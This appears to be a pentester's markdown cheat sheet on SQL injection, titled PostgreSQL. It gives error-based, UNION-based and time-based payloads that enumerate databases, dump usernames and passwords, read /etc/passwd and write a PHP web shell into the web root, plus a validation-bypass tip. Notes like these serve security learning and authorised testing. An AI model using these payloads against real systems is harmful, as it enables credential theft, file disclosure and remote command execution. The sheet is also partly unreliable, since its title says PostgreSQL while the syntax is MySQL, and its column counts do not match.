 # PostgreSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT version()) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

**Note:** Transitioning to `UNION SELECT` significantly differs due to having to match the variable types within the statement

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
'
# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), version(), null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# LFI (also works in error payload)
' UNION SELECT null, load_file('/etc/passwd'), null, null, null -- //
' UNION SELECT null, load_file('../../../../../../etc/passwd'), null, null, null -- //

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```
